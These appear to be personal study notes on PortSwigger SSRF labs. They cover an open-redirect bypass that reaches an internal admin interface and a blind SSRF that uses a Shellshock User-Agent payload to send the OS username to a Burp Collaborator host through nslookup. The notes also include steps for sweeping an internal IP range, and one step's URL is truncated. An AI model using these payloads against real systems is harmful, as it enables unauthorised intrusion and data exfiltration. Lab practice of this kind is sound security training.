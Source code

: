 The stock checker has been restricted to only access the local application, so you will need to find an open redirect affecting the application first.

1. Visit a product, click "Check stock", intercept the request in Burp Suite, and send it to Burp Repeater.
2. Try tampering with the `stockApi` parameter and observe that it isn't possible to make the server issue the request directly to a different host.
3. Click "next product" and observe that the `path` parameter is placed into the Location header of a redirection response, resulting in an open redirection.
4. Create a URL that exploits the open redirection vulnerability, and redirects to the admin interface, and feed this into the `stockApi` parameter on the stock checker:
    `/product/nextProduct?path=http://192.168.0.12:8080/admin`
5. Amend the path to delete the target user:
    `/product/nextProduct?path=http://192.168.0.12:8`

**Analysis**:
1. after decoding the `stockapi` parameter we observe that is not using a URL as http://example.com to make a request to a different host (it using a redirecting url)
	![[Pasted image 20241002202146.png]]
	
2. if we try to modify i, we get a error on this topic so we need to change our approach and find a redirect link(see next product page)
	![[Pasted image 20241002202326.png]]
	![[Pasted image 20241002202550.png]]

3.  we will use the url of the next-product page to test execution of an open redirect 
	![[Pasted image 20241002202855.png]]

4. copy this request back into the `stockApi` parameter(URL encode it) in order to make a request towards the `admin` host page.
	**note**: we have to fuzz trough all list ip range to find out that one that is running in 8080 port (in our case is 192.168.0.**12**:8080)
	![[Pasted image 20241002203438.png]]
	![[Pasted image 20241002203759.png]]


## **6. Blind SSRF with Shellshock exploitation**
This site uses analytics software which fetches the URL specified in the Referer header when a product page is loaded.

To solve the lab, use this functionality to perform a [blind SSRF](https://portswigger.net/web-security/ssrf/blind) attack against an internal server in the `192.168.0.X` range on port 8080. In the blind attack, use a Shellshock payload against the internal server to exfiltrate the name of the OS user.

1. Observe that when you load a product page, it triggers an HTTP interaction with Burp Collaborator, via the `Referer` header.
2. Observe that the HTTP interaction contains your `User-Agent` string within the HTTP request.
3. Send the request to the product page to Burp Intruder.
4. Go to the [Collaborator](https://portswigger.net/burp/documentation/desktop/tools/collaborator) tab and generate a unique Burp Collaborator payload. Place this into the following Shellshock payload:
    `() { :; }; /usr/bin/nslookup $(whoami).BURP-COLLABORATOR-SUBDOMAIN`
5. Replace the `User-Agent` string in the Burp Intruder request with the Shellshock payload containing your Collaborator domain.
6. Change the `Referer` header to `http://192.168.0.1:8080` then highlight the final octet of the IP address (the number `1`), click **Add §**.
6. In the **Payloads** side panel, change the payload type to **Numbers**, and enter 1, 255, and 1 in the **From** and **To** and **Step** boxes respectively.
7. Click  **Start attack**.